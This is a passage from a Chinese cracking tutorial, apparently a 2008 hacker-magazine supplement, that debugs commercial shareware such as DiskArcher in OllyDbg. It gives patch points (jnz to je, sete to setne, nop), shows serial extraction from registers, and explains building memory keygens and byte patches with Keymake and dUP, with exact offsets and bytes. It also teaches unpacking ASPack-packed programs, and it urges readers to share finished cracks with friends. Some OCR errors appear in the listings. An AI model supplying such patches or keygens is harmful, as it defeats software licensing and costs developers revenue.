按照我们改逆的思想，就是将jnz 改为je 了，这样就能实现这个跳转，而且还会达到注册成功的状态，又何乐而不为呢？这个不就是我们想要的结果吗？

既然了解了这一点，还等什么呢？双击004011F6这一行就可以进行汇编代码的修改了，如图12所示。


修改后的代码会变成红色，修改之后需要将代码保存一下，按鼠标右键选择“复制到可执行文件”->“选择部分”，如图13所示。


如果修改不止一处的时候，就需要选择“所有修改”了。我这里将修改后的文件保存为“实例一1.exe”，运行修改后的程序，随便输入信息进行注册，结果如图14所示。


这个就是我们想要的结果了。怎么样？你的操作成功了吗？这可是爆破最基本最基本的修改法子了，但是这里会存在一个问题：假如某人输入的注册信息刚好就是真正的注册信息，那么按照程序执行的流程，就肯定会执行到失败处了，呵呵。

## 边破边解 --CRACKER 实例大全

提示

通过实例一，我们学到了什么？

- 第一，了解了peid和OD的简单配置和使用；
- 第二，了解了对一个没有加壳的程序的三步曲方法；
- 第三，学习了对于代码的静态分析；
- 第四，了解了最基本最基本的爆破思想——改逆；
- 第五，了解在OD中如何修改代码和保存修改后的程序。

大家千万不要以为好像很简单，其实这里面涉及了不少方法和知识。下面轮到实例二了，精彩技巧等着你！

### 2.2 实例二

本节主要使大家掌握标志位的爆破，实例二使用了一个共享软件来作目标，本次实例所需要的工具还是和实例一的一样，Peid + OD。还记得实例一中我所说的三步曲吗？先来进行第一步的查壳，如图15所示。


从图15中可以看到“Microsoft Visual C++ 6.0 [Debug]”，说明这是一个C++程序，而且没壳，对于初学者来说，首先应该找一些没壳的程序来练手，因为如果程序加了壳，而自己又没有能力将其卸下的话，那么心理负担是比较大的。关于C + + 的程序入口代码，如图16所示。


熟悉各种程序的入口代码，对于脱壳的时候是非常有帮助的，所以平时应该把这些人口点代码收集起来，并且尽可能记住一些关键性代码，能够通过肉眼辨别出来是何种程序所编译。请千万记住这一点，对于这个入口点，关键性的东西就是“msvcrt.__set_app_type”，这个是非常重要的，这也是C 的特有代码。

第一步我们算是完成了，那么接下继续第二步吧，运行程序，点击菜单上的“file -> register”`，输入假的注册信息，如图17所示。

提示注册失败，既然有此提示，那么对于OD的字符串插件来说，又可以大派用场了。好，


00414A26 pus R
00414A30 pus Archive
00414A58 pus Congratulations!\nYou have successfully registered\nyour copy of DiskArcher!
00414A66 pus Unknown error during registering.\nPlease contact the program manufacturer.
00414A7D pus Given user name and code are not correct.\nPlease check them very carefully and try again.

马上进入第三步，O D 载入程序，通过字符串插件，很容易就搜索到刚才提示的信息，如图1 8 所示。

有错误提示，而且也能看到成功提示，双击到代码上去，来到代码处：

```
004149B9 E8 E03D0000 call DiskArc.0041879E ; 关键call
004149BE 84C0 test al,al
004149C0 OF84 B3000000 je DiskArc.00414A79 ; 关键跳转
……
00414A4E E8 1253FFFF call DiskArc.00409D65
00414A53 84C0 test al,al
00414A55 74 OB je short DiskArc.00414A62
00414A57 6A 00 push 0
00414A59 6A 00 push 0
00414A5B 68 E8B74200 push DiskArc.0042B7E8 ; Congratulations!\nYou have successfully registered\nyour copy of DiskArcher!
00414A60 EB 09 jmp short DiskArc.00414A6B
00414A62 6A 00 push 0
00414A64 6A 00 push 0
00414A66 68 9CB74200 push DiskArc.0042B79C ; Unknown error during registering.\nPlease contact the program manufacturer.
00414A6B E8 52460000 call <jmp.&MFC42.#1200>
……
00414A7D 68 40B74200 push DiskArc.0042B740 ; Given user name and code are not correct.\nPlease check them very carefully and try again.
```

从以上代码来看，00414 A4E 处的call 应该就是一个关键call了，这个call 其实就是一个子程序，里面会对注册信息进行计算验证。最后，会得出一个结果，然后再根据产生的结果让下面的代码执行。

比如这里的004149C0处的je，je是相等就跳的意思，如果得出的结果和程序计算的结果是相等的话，那么就跳到注册失败处，反之就注册成功。

曾经有很多小菜问我，为什么通过修改关键跳转后，注册时出现成功的提示了，但是关闭程序再次运行，却又会变成未注册状态。这种情况就是爆破不完美，没有爆到核心点，只是表面的爆破，所以才会出现如上所说的情况。这个实例我不推荐大家使用je改为jnz，否则本节就实在没意义了。

## 边破边解 --CRACKER 实例大全

我们在004149B9处的关键call设一个断点，就是按键盘上的F2。设置好后，前面的地址会变成红色，如果没有，那么断点就没设置好，或者说设置断点失败。

出现红色就可以按F9将程序运行起来了，随便乱注册一下，这时候可以发现断点已经中断下来了，如图19所示。

|004149B7|88CE|mov ecx,esi|
|004149B9|E8 E03D0000|call DiskArc.0041879E|
|004149BE|84C0|test al,al|
|004149C0|0EF4 B3000000|je Diskarc_00414970|

图19

因为中断后的颜色是会变的，所以很容易判断出来。按F7进入call，看到下面的代码：

```
00418786 8378 F8 OF cmp dword ptr ds:[eax−8],0F
004187BA 75 46 jnz short DiskArc.00418802
```

004187B6处是比较语句，主要比较输入的注册码位数与0x0F（10进制是15）。按Ctrl+F2重新载人，这次输入15位注册码位数，再进入call。

开头是判断注册码位数，接着的是注册算法运算，这里我就不讨论了，因为主要是介绍爆破。好，我们来到下面的代码处：

0041881A 884D F4 mov ecx,dword ptr ss:[ebp−C]
0041881D 8AC3 mov al,bl
0041881F 5B pop ebx
00418820 64:890D 00000000.mov dword ptr fs:[0],ecx
00418827 C9 leave
00418828 C2 0800 retn 8

当程序执行0041881D过后，al和bl的值如图20所示。

|0041881D|8AC3|mov al,bl|
|0041881F|5B|pop ebx|
|00418820|64:890D 00000000|mov dword ptr fs:[0],ecx|
|00418827|C9|leave|
|00418828|C2 0800|retn 8|
|0041882B|55|push ebp|
|0041882C|8BEC|mov ebp,esp|
|0041882E|83EC 14|sub esp,14|
|00418831|53|push ebx|
|bl=00|
|al=01|

图20

看到了吧？al=01，bl=00，这是一个赋值语句，就是将bl的值传送到al去，执行过后，al=bl。因为bl=0，所以执行过后，al也会等于0。一般来说，al=0或者eax=0会代表注册失败，而al=1或者eax=1会代表注册成功，所以我们想要注册成功，就不能让al置1。
这里我们就

# 非安全·黑客手册2008第一增刊

一般来说，为假可不是件好事，而且为假一般就是注册失败，为真才会注册成功，所以这里我将sete bl修改为setne bl，修改后如图28所示。

Sete的功能是相等置位，setne的功能是不相等置位，这就如je和jne一样。修改好后，保存为ytm_cr.exe，运行修改好的ytm_cr.exe，结果如图29所示。

这里可以看到显示为“授权版”了，修改标志位的好处就是可以免注册，还可以制作成免注册补丁（关于补丁，后面会有专节介绍）。

到这里，这个程序已经K.O了，那么通过实例三，我们可以学到什么呢？第一，重启验证的破解；第二，进一步学习标志位破解，巩固前面我们学习到的知识。

### 2.4 实例四

随着易语言的发展，因其简单而容易，所以越来越多的用户使用它来编写程序。本实例是一个使用易语言编写的程序，因为易语言与其他语言编译出来的程序不大相同，所以掌握好易语言程序的破解，也是必备的基础。

易语言编写出来的程序好像有一层壳保护，OD载入后不能马上使用字符串插件，所以对于初学者会带来一定的阻挠，希望本实例能给大家带来帮助。

老规矩，拿到程序先查壳，如图30所示，显示的是Microsoft Visual C++ 6.0 [Overlay]。

为什么不是显示“易语言”呢？我们说过，易语言就好像有一层壳保护，一般C程序很少会带有[Overlay]，Overlay是附加数据的意思，易语言会将一些库文件以附加数据的形式放在代码的尾部，所以产生了这个附加数据。

一般来说，使用非独立编译出来的程序，在没有安装易语言的系统上是运行不起来的，所以在易语言生成工程的时候，最好使用独立编译，这样即使没安装易语言也能够运行起来。

下面看看入口点，新版本的易语言编译出来的程序，入口点大多是0040389F，旧版本的是00403831，非独立编译出来的是00401000，入口点比较固定。所以根据这个入口点，也能很容易辨别出它是易语言程序。

易语言入口点的代码与C 程序是差不多的，所以这里就不说了。将程序运行起来看看，如图31所示。

一运行就弹出一个NAG来，NAG就是警告窗口，一般就是一个提示信息框，因为我之前运行过一次了，所以这里看到是第2次。随便假注册一下，如图32所示。

居然和实例三一样，是一个重启验证型的。再看看程序目录文件夹下，就主程序一个，没别的东西，我猜想注册信息可能是写入注册表了。

我进注册表去搜了一下，发现在HKEY_CURRENT_USER\Software\hmwlgzs\hmjjm保存着注册信息，在HKEY_LOCAL_MACHINE\SOFTWARE\hmwlgzs\hmjjm保存着使用次数，如果是第三次运行程序，就会提示说非法注册了。

写入注册表的重启验证，一般使用API断点来找出切入点，常用的API函数如下：

```
RegOpenKeyA     /// 打开一个现有的注册表项
RegOpenKeyExA   /// 打开一个现有的注册表项
RegCreateKeyA    /// 在指定的项下创建或打开一个项
RegCreateKeyExA  /// 在指定项下创建新项的更复杂的方式
RegDeleteKeyA    /// 删除现有项下方--个指定的子项
RegDeleteValueA  /// 删除指定项下方的一个值
RegQueryValueA   /// 获取一个项的设置值
RegQueryValueExA /// 获取一个项的设置值
RegSetValueA     /// 设置指定项或子项的值
RegSetValueExA   /// 设置指定项的值
RegCloseKey      /// 关闭系统注册表中的一个项
```

一般我不会先下API断点，而是先搜索字符串，看看是否能找到有用的信息。如果没有，我才会使用API断点。

OD 载入程序，如果这时马上使用字符串插件，我们并不能搜索出什么来，而是要进入真正的易语言代码上去才能搜出结果来。先打开“查看->内存”，如图33所示。

|00400000|00001000|hmjjm|.text|PE header|
|00401000|00006000|hmjjm|.rdata|code|
|00407000|00001000|hmjjm|.data|imports|
|00408000|00004000|hmjjm|.data|data|
|0040C000|00010000|hmjjm|.data|data|
|0041C000|00022000|hmjjm|.rsrc|resources|

看到了.data区段吧？以前是.ecode区段的，新版本改成.data区段了。直接在这里F2下断点，然后运行，中断在下面代码处：

```
10028CFD	8B42 30	mov eax, dword ptr ds:[edx+30]	/// 断在这里
10028D00	83E0 01	and eax,1
```

不管它，一路 F 8 走，没几下就会来到以下代码处：

```
0041AF6B	FC	cld	;	(Initial CPU selection)	/// 来到这里
0041AF6C	DBE3	finit
0041AF6E	E8 F7FFFFFF	call hmjjm.0041AF6A
0041AF73	68 43AF4100	push hmjjm.0041AF43
```

FC DB E3 E8 F7 FF FF FF 这个16进制代码可能是易语言独有的，所以也有大侠写出了找到这里代码的脚本，有兴趣的可以在网上搜索一下。

到了这里就好办了，这时就是可以使用字符串插件的时候了。搜索之后，可以看到有两处的SOFTWARE\hmwlgzs\hmjjm\test，在这两处上下断点，然后运行，就会马上中断下来：

```
004196A5	68 21C24000	push hmjjm.0040C221	;	SOFTWARE\hmwlgzs\hmjjm\test	/// 中断在这里
004196AA	68 01030080	push 80000301
```

继续 F 8 一路走，来到下面代码处：

```
00419721	83F8 00	cmp eax,0
00419724	0F85 0F000000	jnz hmjjm.00419739
0041972A	C705 4806B700 0>mov dword ptr ds:[B70648],1
00419734	E9 3A000000	jmp hmjjm.00419773
```

00419721 处是eax 与 0 比较，得出比较结果后下面的 jnz 语句执行比较结果。如果跳了，就会执行到“非法注册”那里，所以这个 jnz 是绝对不能跳的，可以将其 nop 掉，如图 3 4 所示，nop 是一个无意义指令。

修改后保存，运行修改后的程序，再打开注册框可以看到如图 3 5 所示。

这表明爆破已经成功了，如果你修改后发现程序跑不起来的话，那么可以将 00 4 1 9 7 2 1 处的代码 cmp eax,0 改为 mov eax, 1 后再保存，应程序运行就没问题了。

好了，本实例分析完毕，通过实例四你学习到什么呢？

+   - 第一，易语言的入口点辨别；第二，如何找到易语言真正的代码；第三，注册表重启验证型的破解；第四，巩固和复习之前学习的标志位爆破。

爆破基础就介绍到这里了，主要就是改逆和修改标志位。但是修改标志位要比改逆好很多，基本能达到完美状态。我就认识几个算法一般，爆破很牛的人，所以爆破能够做很多事情，千万不要因为简单而放弃研究和学习。

既然学会了爆破，我想很多人会非常乐意与朋友分享破解成果的。有些程序比较大，如果传来传去可能会因网速问题而觉得非常郁闷，所以这时候将破解好的程序制作成内存注册机或者爆破补丁会是很好的办法。

想知道如何做吗？请看第三节！

### 三、制作内存注册机和补丁

经过前面的学习，我相信你至少具备破解的能力了，但是还可能不知道要怎么制作我们的破解成果吧？那好，本节就跟大家介绍一下如何制作另类的注册机（也就是内存注册机）和破解补丁。

在这里，我们需要用到一个工具，就是Keymake，它有1 .73 和2 .0 两个版本。2 .0 版本可能对VB程序更好一些，这只是个人见解，两个版本其实是一样使用的，这里我就以1 .73 作为介绍。Keymake是一款可以很方便的制作出内存注册机和破解补丁的破解辅助工具，目前有很多人都在使用它。

### 3.1 实例五（上）

实例五是一个单词抓取器程序，要想找到切入点，大家可以根据第二节所讲的方法来破解，但是为了避免和前面介绍的方法重复，这里我为大家介绍另外一个方法来找到切入点。查壳这一步我就略过了，因为大家了解之后就可以自行操作了，现在我随便假注册一下，结果如图36所示。

有一个错误提示对话框，其实是共享软件的致命漏洞，就好像入侵方面的上传漏洞一样，也是菜菜们最爱看到的东西。

这次我跟大家介绍堆栈破解的方法，也就是传说中的暂停大法。好了，载入到OD中去，既然有错误提示，现在不用马上搜索字符串，也不用忙着去下断点，先将程序运行起来（记住，是在OD中运行起来），输入刚才假注册的信息，这时会出现如图36所示的界面，现在按下键盘上的F12，也可以点击OD快捷栏的图标，如图37所示。

图37中最后的那个图标就是暂停运行，这时代码会停在如下位置：

```
7C92EB94 n> C3
7C92EB95 8DA424 00000000 lea esp,dword ptr ss:[esp]
```

别急，别慌，接着按下快捷栏上的 “K ”，如图 3 8 所示。

能看到 K 字母吧？也可以使用快捷键 Alt + k，这是调用堆栈的意思；再回到OD看看，如图 3 9 所示。

图39

从图 3 9 中右边能看见一个 “调用来自” 的列，这个调用来自系统函数，我们不需要理会它。我们主要是看这个 “调用来自” 列中的 “Grabber .0044B206”，因为这个调用是来自程序领空的，双击它来到代码位置：

```
0044B203 FF75 F4 push dword ptr ss:[ebp-C]
0044B206 FF15 48D54600 call dword ptr ds[<&USER32.MessageBoxA>]; USER32.MessageBoxA /// 来到这里
0044B20C 85F6 test esi,esi
```

往下找到第一个返回处，也就是 0044B238 C2 0C00 retn 0C 这句，在这里下断点，并运行起来。再次中断下来，这时按一下 F 8 将返回出子程序，来到如下代码位置：

```
0044B257 FF92 8C000000 call dword ptr ds[edx+8C]
0044B25D EB 10 jmp short Grabber.0044B26F
```

通过分析知道，这里还不是关键地方，所以继续 F 8 返回出子程序。再次返回后，可以看到一个熟悉的文字了，如图 4 0 所示。

再往上看看代码：

```
00404095 8378 F8 06 cmp dword ptr ds:[eax-8], 6 /// 用户名位数与 6 比较
00404099 7D 1E igeshort Grabber.004040B9 /// 大于或等于就跳
0040409B 6A 00 push 0
0040409D 6A 40 push 40
0040409F 68 08924800 push Grabber.00489208 ; 至少输入 6 个字符
```

通过这几行代码可以知道，用户名的位数需要大于或等于6位，幸好我们的nohack刚好就是6位，这时就不会出现提示说“至少输入6个字符”了。

我们在用户名位数比较这一行下断点，运行后会中断下来，慢慢F8往下走，当经过004040C1处的call后，在004040C6处的[esi+60]上保存着我们刚才输入的假注册码，而在004040C9处的[esp+8]保存着真正的注册码。代码如下：

```
004040C1 E8 OA010000 call Grabber.004041D0 ; 算法call
004040C6 8B46 60 mov eax,dword ptr ds:[esi+60] ; 假注册码
004040C9 8B4C24 08 mov ecx,dword ptr ss:[esp+8] ; 真注册码
004040CD 50 push eax ; 假注册码压栈
004040CE 51 push ecx ; 真注册码压栈
004040CF C74424 24000000>mov dword ptr ss:[esp+24],0 
004040D7 E8 41300200 call Grabber.0042711D ; 比较call
004040DC 83C4 08 add esp,8
004040DF 85C0 test eax,eax
004040E1 74 2F je short Grabber.00404112 ; 爆破点
004040E3 6A 00 push 0
004040E5 6A 40 push 40
004040E7 68 F8914800 push Grabber.004891F8 ; 序列号无效!
```

既然现在知道真注册码保存在哪里，我们就可以利用工具对其制作出内存注册机。在做之前，我们还必须知道寄存器中相关的值，如图41所示。


Eax=假码，ecx=真码，这不是一定会出现在这两个数值中的，有时也会出现在edx中，这要看具体情况啦！运行keymake1.73，点击菜单栏中的“其他”，选择“内存注册机”，如图42所示。

打开后，会出现如图43所示界面。


这里是制作内存注册机的主要部分，我会一一为大家介绍如何填写里面的数据。由图4 3 中看，可以分“程序信息”部分和“注册码”部分，下面先来看看“程序信息”部分。

程序名称：这里当然是选择你需要做内存注册机的那个程序啦！

中断地址列表：这里主要是填写我们在OD中获得的数据，点下面的“添加”会弹出一个界面，如图4 4 所示。


图44

图45

这里是制作内存注册机的核心部分了，我根据由上到下的项目给大家介绍每一项内容：

中断地址：这里填写在OD中中断的那个地址．比如本实例中的004040D7。

中断次数：这里填写在OD中是经过多少次中断才获得注册码的，比如本实例只经过一次中断就获得注册码，所以填1。

第一字节：这里填写004040D7地址处的16进制数据的第一个字节，比如本实例中的E8。

指令长度

# 边破边解---CRACKER实例大全


# 图46


# 图47


# 图48

# 非安全·黑客手册2008第一增刊

这里主要讲“文件信息”部分，其他的请自行参考上面的介绍。“文件信息”很容易看懂，原始的文件：就是原来没有经过任何修改的程序；已破解文件：就是经过爆破修改代码后保存出来的程序。

选择好后觉得没问题，就点击“制作”，这样一个文件补丁就制作完成了。一般来说，文件补丁是应用在原程序没有加壳的情况下的，如果原程序是加了壳的，那么文件补丁就不适合了。

那么这样又该怎么办呢？没关系，作者很照顾我们，知道我们非常菜，特意写了一个“内存补丁”功能。运行keymake，选择菜单栏中的“其他->制作内存补丁”，就弹出一个配置界面，如图48所示。

这里需要填写的数据和我们刚才介绍内存注册机部分的差不多，所以我也就不介绍了，请大家自行学习。

### 3.2 实例五（下）

并不是所有的共享软件都会以“内存方式”出现注册信息的，如果算法分析功力不够的话，很多人都选择爆破。既然是爆破，那么要想分享破解成果，就只有制作破解补丁一途了。现在继续通过我们的实例五，在这里为大家介绍一个专业的补丁制作工具——diablo2002's Universal Patcher (简称dUP)。

这是一款专业级的补丁制作工具，它支持对多个文件应用补丁；支持创建偏移或搜索&替换补丁/Loader；支持对不同大小的文件进行比较；支持注册表补丁，同样支持Loader；支持在补丁中附加文件；支持从注册表中获取文件路径；支持CRC32与文件大小校验；支持对已加壳的文件进行补丁；支持对生成的补丁加壳；支持补丁使用自定义皮肤；支持在补丁中添加音乐（xm、mod、it、s3m、mtm、umx、v2m、ahx）等等，光是看介绍你也会觉得此工具很牛吧？好，运行dUP程序，打开“设置”项，如图49所示。


我们在使用前最好先设置一些基本信息，以方便以后使用。在“设置”这里，我们可以自定义皮肤、自定义窗口、自定义补丁、自定义对话框颜色、透明补丁对话框、添加音乐到

# 边破边解 --CRACKER 实例大全

补丁等等。要设置这些信息是很简单的，我就不一一介绍了。

回到“补丁数据”，选择“新建方案”，会看到一些与制作者有关的信息，如图 5 0 所示。


这里大家看着提示自己写就行，写好后就可以通过“添加”来选择补丁方式了。这个工具的补丁包括文件偏移补丁、查找替换补丁、注册表补丁和附件，如图 5 1 所示。


本实例选择“偏移补丁”即可，添加好后，双击补丁类型就可以对它进行编辑和修改了，如图 5 2 所示。


由前面的分析知道，爆破点为004040E1 74 2F je short Grabber.00404112这一句。将je改为jmp即可完成爆破工作，所以这里偏移就填写00040E1，原始字节填写74，新的字节填写EB 。填写完后选择“保存”，保存好后点“创建补丁”就可以了。至于查找替换

# 非安全·黑客手册2008 第一增刊

补丁、注册表补丁和附件等功能，请大家自行学习，算是给大家的一个作业吧！
通过本实例你学习到什么呢？

第一，进一步复习和巩固前面介绍的爆破和破解手法；第二，学习如何制作内存注册机；第三，学习如何制作专业级的破解补丁。

补丁制作工具有很多，但是这两款是大家经常会见到的，也是使用率非常之高的。至于其他的工具，如注册机生成器 1.0、cazaseriales 0.8(build50)、Inline Loader v1.0等等，就请大家自行学习了，使用方法基本上都差不多。
通过本节的学习，至少你已经掌握如何制作破解补丁了，快快发布给朋友们分享研究成果吧，是不是会觉得很有成就感呢？但是随着共享软件的发展，越来越多的共享软件为了保护其自身利益，经常会采取加壳的方法来保护自己的成果，如果遇上加壳，我们该怎么办呢？难道就这么束手待毙吗？NO，NO，接下来请阅读第四节……

### 四、加壳与脱壳

所谓加壳，就是对程序进行加层皮。举个最简单的例子，如果你想得到花生米，那么你首先得把花生壳剥掉，花生米就好比共享软件，而花生壳就好像它加的壳。
近年来，越来越多的壳层出不穷，但将它们综合起来看，不外乎三大类：一是压缩壳；二是加密壳；三是捆绑壳。

压缩壳一般是用来压缩程序的，使用压缩壳之后，体积要比原来的小很多，具有代表性的就是 aspack、upx、fsg、nspack 等等；
而加密壳一般带有反调试、输入表加密、数据普通加密、虚拟机引擎加密等保护方式，具有代表性的就是 asprotect、acprotect、armadillo 等等；
捆绑壳，顾名思义，就会捆绑文件，在脱壳的时候需要将文件分离出来，才能够正常运行。这类壳不多，具有代表性的就是 Thinstall、PEBundle、MoleBoxPro 等等。

所谓脱壳，其实是与加壳想对而言的，有加壳就必然有脱壳，不然就无法进行一些破解、汉化等工作了。所以掌握好一些常见的脱壳方法，是非常有必要的。本节重点给大家介绍一些实用、常见的脱壳方法。

### 4.1 实例六

本实例主要介绍如何使用 aspack 来压缩程序，被压缩对象是 Win98 下的记事本程序。运行 aspack 2.12 即可看到界面，如图 53 所示。


# 边破边解 --CRACKER实例大全

点击“打开”，选择要被加壳的程序，如图54所示。选择好程序后，aspack会自动进行加壳，如图55所示。


加完壳后，会显示压缩比例。现在使用Peid来扫描一下，结果如图56所示。


可以看到显示ASPack 2.12 -> Alexey Solodovnikov，一般来说，“->”左边的信息是代表什么壳和哪个版本，“->”右边的信息是代表壳作者或者壳公司。加了壳之后，可以发现入口点已经被改变了，图56上显示的是0000D001，其实真正的人囗点是000010CC。另外，EP块也变成了.aspack，这就是一般加壳后的效果。这里只选取aspack作为代表进行介绍，对于其他的压缩壳，其使用方法是差不多的，大家可以自行学习研究一下。通过本实例你可以学习到什么呢？


+   提示 第一，aspack 2.12使用方法；第二，加壳后程序入口点被改变；第三，出现一个新的EP块.aspack。

### 4.2 实例七

本实例主要介绍如何使用armadillo v4.4对程序进行加壳，被加壳对象依然是Win98下

# 非安全·黑客手册2008 第一增刊

的记事本程序。运行armadillo v4.4后，界面如图57所示。


运行后点击“文件”，新建一个工程后就可以看到工程的设置了，如图5 8 所示。


工程ID号及版本号：ID号是必须填写的，我这里填0 0 1，版本号可以不填；

设置要保护的文件：其实就是被加壳对象，我这里选择W in 9 8 的记事本程序；

Language：这里选择默认就可以了；

闪屏设置1 ：这里有三个选项，分别是无闪屏窗、默认框和显示B M P 图片，你可以根据自己的需要进行设置，我选择无闪屏窗；

输入密钥对话框选项：我这里设置默认；

保护选项：大家可以的需要进行设置，我这里就按照默认操作了，如图5 9 所示。


下面几项我就不一一介绍了，大家可以自行体会一下。但是我要说一下最下面的“证书”，这里是必须要设置的，不然就无法加壳成功了。最起码你必须为证书起个名字，其他的完全按照默认就可以了。更多功能设置，请大家参考armadillo的帮助文件或者自行加壳进行体会。

# 边破边解--CRACKER实例大全

设置完后，就点击菜单栏上的“保护->保护文件”，成功加壳了，最后用Peid 来扫描一下，如图60所示。


其实如果要作最大保护的话，其加壳过程还是比较复杂的，也比较麻烦，但是加密强度还是非常高的。armadillo 的版本目前最新的是6.0，我这里是为了方便介绍而选择的汉化版，如果作为加壳保护之用，我还是建议使用最新版本。通过本实例你可以学到什么呢？

+   * 第一，arm的加壳过程；* 第二，经过自行学习，可以设置最大强度保护程序。

### 4.3 实例八

本实例目标程序是使用 ASPack 2.12 加壳后的一个 Win98 下的记事本程序。这次主要给大家介绍如何使用一些常见脱壳方法来脱壳，这些方法也适用于其他压缩壳。

由于我们已经知道程序是经过 ASPack 2.12 加壳的，所以略去 Peid 查壳这一步，直接 OD 载入目标程序，载入后停在入口点：

```
0040D001 N> 60 pushad ; 停在壳入口点
0040D002 E8 03000000 call NOTEPAD.0040D00A
0040D007 – E9 EB045D45 jmp 459DD4F7
0040D00C 55 push ebp
0040D000D C3 retn
```

这是 aspack 非常经典的入口代码，Peid 之所以能够查出是 aspack 壳，我想大概就是因为查出了这个入口点的部分二进制代码。

### 4.3.1 寻找 OEP

方法一：
对于压缩壳来说，大部分都可以使用单步跟踪法来跑到真正的程序入口（即OEP）。当步过 0040D002 地址的时候，发现记事本运行起来了，所以这个 call 必须要跟进去。程序运行起来了，就等于跑飞了，所以凡是当步过 call 时程序运行起来了，就得在这个 call 上跟进去。

当来到 0040D03B 50 push eax; 这里的时候，在信息窗口可以看见 eax=0040D441 (NOTEPAD.0040D441)，ASCII "kernel32.dll"，表明 DLL 开始解密了。具体情况大家可以跟着代码看信息窗口的数据，另外对于单步跟踪要注意的是，当发现有回跳时，那么就用 F4 定位到下一行代码去，这样就可以缩短一些时间了。
使用 F7、F8 和 F4，很快会看到下面的代码：

```
0040D3B0 /75 08 jnz short NOTEPAD.0040D3BA
0040D3B2 B8 01000000 mov eax,1
0040D3B7 |C2 OC00 retn OC
0040D3BA \68 CC104000 push NOTEPAD.004010CC
0040D3BF C3 retn
```

0040D3BF 返回后，就是OEP地址了，如图61所示。

|地址|十六进制|反汇编|注释|
|---|---|---|---|
|004010CC|55|push ebp|OEP|
|004010CD|8BEC|mov ebp,esp|
|004010CF|83EC 44|sub esp,44|
|004010D2|56|push esi|
|004010D3|FF15 E4634000|call dword ptr ds:[4063E4]|kernel32.GetCommandLineA
|004010D9|88F0|mov esi,eax|
|004010DB|8A00|mov al,byte ptr ds:[eax]
|004010DD|3C 22|cmp al,22
|004010DF|75 1B|jnz short NOTEPAD.004010FC
|004010E1|56|push esi
|004010E2|FF15 F4644000|call dword ptr ds:[4064F4]|USER32.CharNextA
|004010E8|88F0|mov esi,eax
|004010EA|8A00|mov al,byte ptr ds:[eax]
|004010EC|84C0|test al,al
|004010EE|74 04|je short NOTEPAD.004010F4
|004010F0|3C 22|cmp al,22

使用单步跟踪法的好处就是可以看见IAT解密的整个过程，而且这个方法是-般未知壳的跟踪OEP的基本方法，缺点就是费时费力。

方法二：

使用序列命令搜索，还记得之前准备返回到OEP的那几行代码吧？

0040D3B0 /75 08 jnz short NOTEPAD.0040D3BA
0040D3B2 |

# 边破边解--CRACKER实例大全

点击 “Unpack” 选择待脱壳程序，选好后就会自动脱壳了，同目录下文件 _UnPacked.exe 即为已脱壳程序。

### 4.3.2 Dump 文件

Dump 也被称为转存，一般脱壳跑到OEP的时候，就可以dump下来了，就是将没有壳的程序给保存下来。这其中最常见的有两种方法。

#### 方法一：

使用OD自带的插件，如图70所示。点击 “用ollyDump脱壳调试进程” 后就会出现如图71的界面。


从图71中可以看到，入口点地址将会修正为10CC，也就是我们找到的OEP。现在再点击“脱壳”就完成了，很幸运，这样dump下来后，不需要修复IAT就可以运行起来了。

#### 方法二：

使用LordPE来dump程序，LordPE是一款PE编辑工具，号称是“最好的PE文件修改工具”，其界面如图72所示。

运行后，选择好进程，按鼠标右键选择完整转存，就可以dump下来了。但是通过LordPE抓取下来的映像文件，一般都需要修复IAT后才能正常运行，不然会弹出提示框，如图73所示。当然，以上说的工具，还有PETools、ProcDump等也可以用来进行抓取。这类工具一般是利用Module32Next来获取要dump文件的基本信息的。


### 4.3.3 修复输入表

一般dump后，输入表地址可能被破坏了，这时候就需要修复输入表。修复输入表一般用到的工具是ImportREC1.6，要想使用它来修复IAT就必须满足三点：一是程序已经完全被dump下了，并保存为另外一个文件；二是原程序（未脱壳程序）必须是正在运行着的；三是已经找到程序的真正入口点（OEP）。

运行ImportREC1.6，其界面如图74所示。如果原程序没有在运行中，在ImportREC中是无法载入的，因为只有在运行中的程序才有进程，在ImportREC中才能选择“附加到一个活动进程”。


选择好后，在下面的“OEP”输入刚才得到的OEP：10CC，再点击“自动查找IAT”，如图75所示。

[PAGE 190]

点“确定”后，再点击“获取输入表”，这时会发现可以找到输入表函数了，如图76所示。


最后点击“修复转存文件”，打开刚才已脱壳的文件，当提示保存成功的时候，就可以将ImportREC关闭了，修复过程完成。

从本实例中可以看出，脱壳过程一般是：寻找OEP -> Dump 文件 -> 修复输入表函数。

通过本实例可以学习到什么呢？

+   第一．常见脱壳方法；第二．脱壳的一般过程；第三．脱壳过程所用到的工具。

### 五、简单的算法入门

很高兴你能那么详细的看到这里，我也希望你是一路详细的慢慢看来。本节主要介绍注册算法流程，这是学习的一个关键性阶段。

对于破解来说，有时是爆破好，有时却是算法分析好，为何？理由是：如果程序验证太多，那么爆破起来就会很吃力；如果程序的注册算法太复杂繁琐了，那么爆破将是很好的选择，具体情况还需具体分析。

为了使各位0 基础的小菜也能掌握好算法分析，本节你是不容错过的。我将使用三个实例来为大家介绍算法是如何分析出来的，这三个实例分别是使用delphi、VB、.net 三种编译器编译出来的程序，同时也将介绍一下对付这三种编译器编译出来的程序的主流方法。

[PAGE 191]

# 非安全·黑客手册 2008 第一增刊

### 5.1 实例九

本实例是使用 VB 编写的一个 crackme 程序，注册时出现错误提示，如图 77 所示。


图 77

查壳这一步请大家自行学习，这里我就略过了，因为之前也介绍得比较详细了。本实例我将使用三种方法来找到切入点。

#### 方法一：

使用 API 断点，因为注册有错误提示，所以 API 断点可以使用 bp rtcMsgBox 来达到中断的目的。打开 OD 将程序载入，在命令行中输入 bp rtcMsgBox，如图 78 所示。


图 78

输入后千万记得要回车，不然断点是设置不成功的。回车就可以直接按 F9 运行起来，这时就随便输入点什么进去，当按下“确定”后，就马上中断在如下代码处：

```
73472F29 M> 55   push ebp       ; 中断在这里
73472F2A   8BEC    mov ebp,esp
```

因为这时中断在系统领空，所以要返回到程序领空去。取消刚才下的断点，使用快捷键 Alt + F 9，这时弹出错误对话框，再点“确定”就行了，现在就返回到程序领空如下位置处：

```
00404878 FF15 30104000 call dword ptr ds.[<&MSVBVM60.#595>]      ; MSVBVM60.rtcMsgBox
0040487E 8D55 90     lea edx,dword ptr ss:[ebp-70]                     ; 返回到这里
```

再往上看就可以找个适合的地方再下断点了。方法一到这里介绍完毕，算法待会讲解。
#### 方法二：

F 12 暂停法，这个方法是利用堆栈调用的原理。重新载人程序，啥也不要做，按 F9 运行起来，随便输点什么进去。输完按“确定”，肯定会出现错误对话框，这时按一下面板上的“暂停”按钮，也可以按下 F 12 键，马上暂停在如下代码处：

```
7C92EB94 n> C3        retn
7C92EB95   8DA424 00000000 lea esp,dword ptr ss:[esp]
```

